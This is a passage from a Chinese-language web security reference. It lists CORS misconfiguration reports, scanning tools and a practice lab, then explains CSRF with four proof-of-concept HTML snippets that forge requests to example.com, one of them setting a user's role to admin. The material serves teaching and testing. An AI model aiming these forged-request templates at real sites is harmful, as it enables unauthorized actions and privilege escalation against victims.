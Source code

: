 **相关案例**
- [CORS Misconfiguration, could lead to disclosure of sensitive information](https://hackerone.com/reports/426165)
- [看我如何绕过Yahoo！View的CORS限制策略](https://www.freebuf.com/articles/web/158529.html)

**相关工具**
- [chenjj/CORScanner](https://github.com/chenjj/CORScanner) - 一个旨在发现网站的 CORS 错误配置漏洞的 python 工具
- [Santandersecurityresearch/corsair_scan](https://github.com/Santandersecurityresearch/corsair_scan)

**相关靶场**
- [incredibleindishell/CORS_vulnerable_Lab-Without_Database](https://github.com/incredibleindishell/CORS_vulnerable_Lab-Without_Database)

---

### CSRF

**描述**

跨站请求伪造（Cross-Site Request Forgery，CSRF）是一种使已登录用户在不知情的情况下执行某种动作的攻击。因为攻击者看不到伪造请求的响应结果，所以 CSRF 攻击主要用来执行动作，而非窃取用户数据。当受害者是一个普通用户时，CSRF 可以实现在其不知情的情况下转移用户资金、发送邮件等操作；但是如果受害者是一个具有管理员权限的用户时 CSRF 则可能威胁到整个 Web 系统的安全。

**验证方法**

- GET
    ```html
    <a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
    ```

- POST
    ```html
    <form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="uname" />
    <input type="submit" value="Submit Request" />
    </form>
    ```

- JSON GET
    ```html
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://www.example.com/api/currentuser");
    xhr.send();
    </script>
    ```

- JSON POST
    ```html
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://www.example.com/api/setrole");
    xhr.withCredentials = true;
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send('{"role":admin}');
    </script>
    ```

